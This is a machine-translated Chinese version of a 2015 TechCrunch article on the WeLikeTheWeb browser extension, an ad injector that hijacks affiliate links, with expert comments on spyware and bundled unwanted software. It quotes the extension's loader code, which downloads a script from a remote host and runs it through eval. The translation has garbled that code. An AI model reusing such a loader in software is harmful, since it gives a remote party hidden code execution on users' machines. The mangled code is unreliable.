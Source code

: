 # 点击劫持犯:了解现代间谍软件的陌生新世界 

> 原文：<https://web.archive.org/web/https://techcrunch.com/2015/04/19/clickjackers-inside-the-strange-new-world-of-modern-spyware/>

如果你在 2014 年幸运地，或者，事实上，不幸地从一个叫做 WeLikeTheWeb.com 的网站下载了 Chrome 和 Firefox 的扩展，你看到的只是一个网站推荐引擎，你可能会忽略或卸载它。从表面上看，这个应用程序是无害的。但是，如果你让它运行，你会碰到一个迷人的软件，它指出了一个间谍软件的新时代，以新的和邪恶的方式使用你的计算机，甚至有时是风险投资资助的 T2。
￼

从表面上看，这个扩展(根据大多数病毒扫描程序，它目前被解读为恶意软件，实际上已经死亡)会在你浏览时弹出窗口。然而，如果你是一个代销商——本质上是一个网站创建者，通过将客户送到 booking.com 或 brazzers.com 这样的页面来赚钱——你会发现 WeLikeTheWeb 的网站推荐插件有很多令人讨厌的地方。它是一个广告注入器，一个引导用户远离“合法”广告并将图像和 HTML 注入你的浏览体验的工具。谷歌估计有 5%的网络用户在不知情的情况下使用广告注入器，这让营销人员抓狂——这产生了一些有趣的代码。

# 在后台

从表面上看，这个插件非常普通。你可以[看看这里的代码](https://web.archive.org/web/20221007091050/http://lts.cr/c/Ni3a)。它看起来像广告宣传的那样通过在你浏览时提出建议来工作，但是当你进一步挖掘应用程序时，你会发现一些有趣的事情。除了一句让世界充满伤害的话。

看一下这段代码:

`var website_rec = new function() {
// consts
this.REMOTE_URL = "http://utils.cdneurope.com/js/link-ff.js";`

//fields
this . Ajax request = null；

this . init = function(){
try {
this . Ajax request = Components.classes['@mozilla.org/xmlextras/xmlhttprequest;1'].create instance(components . interfaces . nsixmlhttprequest)；
this.ajaxRequest.open('GET '，this。REMOTE_URL，true)；
this . Ajax request . setrequest header(' Cache-Control '，' no-Cache ')；
this . Ajax request . channel . load flags | = components . interfaces . NSI request . load _ BYPASS _ CACHE；

this . Ajax request . onreadystatechange = function(){
try {
if(this . ready state = = 4&&this . status = = 200){
eval(unescape(this . responsetext))；
}
}
} { }
}
this . Ajax request . send(null)；
} catch(ex) { }

this . init()；
}

重要的部分在顶部。你看，这个插件访问并运行一个隐藏在名为 utils.cdneurope.com 的网站上的文件。

cdeurope 是一块难啃的骨头——追踪它的地理来源是不可能的，因为你最远只能到达托管公司 XLHost.com 的——但它在几秒钟内就能提供恶意软件。域名注册商是隐藏的，发给该公司的电子邮件也没有得到回复。

这段代码可以做任何事情，对于普通用户来说，它所做的事情是不可见的。事实上，要弄清楚到底发生了什么是绝对困难的。

据 [VirusTotal](https://web.archive.org/web/20221007091050/https://www.virustotal.com/en/url/72daf5d52a1a52b4e2ada5980aaaa365c9600366bf25d7b40c9478fd3dfaa1ab/analysis/) 显示，该文件似乎是干净的。然而，这些代码显然是经过了模糊处理的:

![Screen Shot 2015-04-17 at 12.26.01 PM](img/81fa52895eedec26a5d4e07ecc253518.png)

这种加密系统——它实际上是一种减小文件大小和防止窥探 JavaScript 文件的方法——扩展成可读代码很简单。但是它有什么用呢？在这个 matryoshka 代码玩偶中，真正的活动被进一步混淆，只有在代码运行时才能访问功能。想象一辆车，当它以每小时 60 英里的速度行驶时，它的门只打开，让你进去。一旦你真的破解了它，你会发现一些非常有趣的事情。

这是一个赚钱的机会:

![Screen Shot 2015-04-17 at 12.38.24 PM](img/152455500a90c5fc96a5279c8bfb684e.png)

注意网址。在这种特殊情况下，该软件会动态改变附属链接——广告商嵌入其网站以赚点小钱的代码。举例来说，这种恶意软件不是通过点击 Booking.com 来获得积分，而是劫持链接并将积分发送到其他地方。如果用户点击 brazzers.com(NSFW)的链接，恶意软件就会介入，将广告费发给另一个用户。简而言之，chrome 扩展从日常的网络交易中获利，反过来，还赚了一大笔钱。

Packetsled 首席执行官马特·哈里根(Matt Harrigan)表示:“有一些非常有趣的事情正在发生，可能是为了避免谷歌在 Chrome 插件上的任何代码签名企图，这些插件旨在将用户重定向到广告网站。”“有趣的是，他们似乎很成功，而且这似乎不是 Chrome 独有的。在其他几个文件中有 Firefox 特有的代码，这些代码比初始脚本更加模糊。我们认为这可能会导致更广泛的问题，而不仅仅是简单的点击劫持。”

# 见见新老板，和以前的老板一样

WebSiteRecommendation 的大多数用户都是从一个种子下载程序 uTorrent 感染了恶意软件。即使是今天，在 WSR 似乎关闭商店一年后，uTorrent 有时仍会捆绑一些名为 [MyBrowserBar](https://web.archive.org/web/20221007091050/http://bittorrent.mybrowserbar.com/terms_mac.html) 的东西，最近因捆绑了一些[比特币挖矿膨胀软件](https://web.archive.org/web/20221007091050/https://hacked.com/utorrent-bundles-bloatware-epic-scale/)而受到抨击，这些软件后来被证明是一种非营利捐赠系统，利用空闲周期为慈善机构筹集资金。无论你如何称呼它——恶意软件、膨胀软件、间谍软件——这些软件以惊人的规律出现和消失，今天善意的慈善应用程序可能成为明天的劫客。

[Webroot](https://web.archive.org/web/20221007091050/https://beta.techcrunch.com/tag/Webroot) 的安全情报主管 Grayson Milbourne 说:“今天许多更先进的恶意软件都包含间谍软件功能，但我们也看到间谍软件与软件包一起分发。这些以所需应用程序的安装程序的形式出现，该安装程序已被包装在提供许多附加应用程序的新安装程序中。通常被称为 PUA(潜在的不需要的应用程序)这些应用程序通常提供优惠券或以某种方式与网络浏览器互动。这些程序包含非常广泛的 EULA，使他们能够以任何方式使用他们观察到的数据，通常是为了推动定向广告。”

并不是所有的间谍软件一开始都不好。许多应用一旦被不太谨慎的所有者收购，就会变得糟糕。当被合法所有者收购时，一些应用程序甚至转向光明的一面。

“这通常是间谍软件公司被更值得信赖的公司收购的结果，这些公司改变了他们的做法，”米尔本说。“当这种情况发生时，新公司将联系 AV 界，为他们正名。这一过程通常很难完成，因为有太多的反病毒软件存在，并且经常导致供应商的混合检测。”

专家认为间谍软件的高峰期发生在 2005 年，当时互联网还相当新。抓捕坏人的新技术使得驱动广告和窃取点击变得越来越难。

“自那以后，谷歌基本上或多或少地淘汰了‘间谍软件’。F-Secure 的安全顾问肖恩·沙利文说:“现在肯定不像以前了。“在 2006 年，有人会被引诱下载一个屏幕保护程序，在他们不知情的情况下，跟踪软件会被包含或安装在旁边。这些天来，这种跟踪软件是捆绑销售的(crapware ),这更像是一个买家当心的问题。在流行的用法中，间谍软件是指真正的间谍用来监视嫌疑人/目标的软件。许多我们过去称之为‘间谍软件’的东西通常被归类为风险软件/监控工具或可能不需要的软件。”

这些美其名曰 pua 的东西听起来无害，但它们仍然在造成真正的损害——只要问问无数用户就知道了，当联想在其笔记本电脑膨胀软件中包含 [Superfish](https://web.archive.org/web/20221007091050/http://www.extremetech.com/computing/200731-not-so-superfish-al-lenovo-still-shipping-infected-systems-as-customers-grapple-with-removal) 时，他们发现自己很容易受到攻击。现代操作系统在控制谁和什么管理你的信息方面变得越来越好，但仍然有大量的 0 天黑客可以窃取我们的时间、信息和金钱。

![clickjackers-mid](img/593113177d25844efd710164841c01b6.png)

间谍软件和 PUA 作家变得越来越聪明，我们的系统处于危险之中，每天都有新的工具被制造出来。而且有钱可赚。NSS 实验室的研究主任兰迪·艾布拉姆斯说，游说者正试图积极阻止反间谍法规，这显然是一个可怕的想法。

“间谍软件最终是由花在游说立法者上的钱来定义的，”艾布拉姆斯说。“广告/营销行业财力雄厚。肯定有营销组织不使用[间谍软件]，因为他们认为这些工具和做法跨越了法律界限。然而，对于游说国会的大多数行业组织来说，这种观点可能并不正确。

研究人员正在了解营销人员试图锁定我们的新方法，他们甚至很难给间谍软件重新命名，以反映其不断变化的性质。虽然我们许多人会称之为恶意软件，但研究人员每天都在发现新的间谍软件，它们对用户隐藏起来，但仍然是一种威胁。

F-Secure 的 Sullivan 说:“不小心使用他们安装的免费软件的人将继续受到伤害。”“有许多应用程序超越并威胁到隐私。一年多来，我一直在努力想一个新的标签。但‘间谍软件’似乎就是人们得到的东西。”